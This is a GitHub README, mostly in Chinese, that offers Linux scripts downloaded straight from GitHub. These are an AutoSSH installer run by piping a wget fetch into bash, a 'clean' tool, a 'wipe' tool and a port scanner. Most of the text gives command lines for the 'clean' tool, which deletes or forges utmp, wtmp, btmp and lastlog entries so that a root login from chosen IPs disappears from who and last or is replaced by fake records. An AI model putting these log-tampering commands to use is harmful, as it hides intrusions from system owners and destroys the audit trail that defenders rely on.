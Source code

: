 # SH
我的 Linux 脚本

1、安装AutoSSH

wget -c -N --no-check-certificate "https://raw.githubusercontent.com/sunlewuyou/SH/master/autossh.sh" && bash autossh.sh


2、Linux脚印

wget -c https://raw.githubusercontent.com/sunlewuyou/SH/master/clean
1. 删除utmp记录，将自己从w或者who输出中隐藏
python clean --mode delete --type utmp --user root //删除用户为root的用户记录
python clean --mode delete --type utmp --user root --host "58.47.251.255" //删除用户为root且登录来源host为58.47.251.255的用户记录
2. 删除历史登录记录(wtmp)，隐藏last的记录
python clean --mode delete --type wtmp --user root --host "111.30.32.213" //删除用户为root且登录来源host为111.30.32.213的用户记录
3. 删除btmp记录，隐藏lastb的记录，lastb为登录失败的用户记录
python clean --mode delete --type btmp --user root --host "172.16.50.156" //删除用户为root且登录来源host为127.0.0.1的用户记录
4. 删除lastlog记录，不能通过用户删除，只能通过host或者时间
python clean --mode delete --type lastlog --host "172.16.50.1" //删除来源host的用户登录记录
python clean --mode delete --type lastlog --date "2017-8-2 22:46:34" //删除登录时间为2017-8-2 22:46:34的用户登录记录

python clean --mode delete --type lastlog --date "2018-09-01 03:17:49"
六 9月  1 03:17:49 +0800 2018

伪造日志
1. 伪造utmp记录，将自己从w或者who输出中伪造
python clean --mode add --type utmp --user nobody --tty "pts/8" --pid 25394 --date "2017-8-2 22:46:34" --host "127.0.0.1" //伪造用户为nobody的用户记录
这里伪造的时间和host可以通过who命令去找到，PID一般伪造bash或者ssh通过`ps -aux | grep ssh/bash`去寻找
2. 伪造历史登录记录(wtmp)，伪造last的记录
python clean --mode add  --type wtmp --user root --tty "pts/7" --date "2017-8-2 00:06:34" --host "127.0.0.1"
3. 伪造btmp记录，伪造lastb的记录，lastb为登录失败的用户记录
python clean --mode add  --type btmp --user root --tty "pts/7" --date "2017-8-2 00:06:34" --host "127.0.0.1" //伪造用户为root且登录来源host为127.0.0.1的用户登录失败记录
4. 伪造lastlog记录
python clean --mode add --type=lastlog --user=rootclay --date="2017-7-24 14:22:07" --tty "pts/2" --host "127.0.0.1" //伪造用户为rootclay 时间2017-7-24 14:22:07 来源登录ip为127.0.0.1的用户登录记录

3,wipe 

wget -c https://raw.githubusercontent.com/sunlewuyou/SH/master/wipe

UTMP editing:
    Erase all usernames      :   wipe u [username]
    Erase one username on tty:   wipe u [username] [tty]

WTMP editing:
   Erase last entry for user :   wipe w [username]
   Erase last entry on tty   :   wipe w [username] [tty]

LASTLOG editing:
   Blank lastlog for user    :   wipe l [username]
   Alter lastlog entry       :   wipe l [username] [tty] [time] [host]
	Where [time] is in the format [YYMMddhhmm]

4，端口扫描

wget -c https://raw.githubusercontent.com/sunlewuyou/SH/master/portscan

使用：python portscan，然后输入需要扫描的IP即可。

其他语句查看指定端口占用情况：netstat -tunlp | grep 80

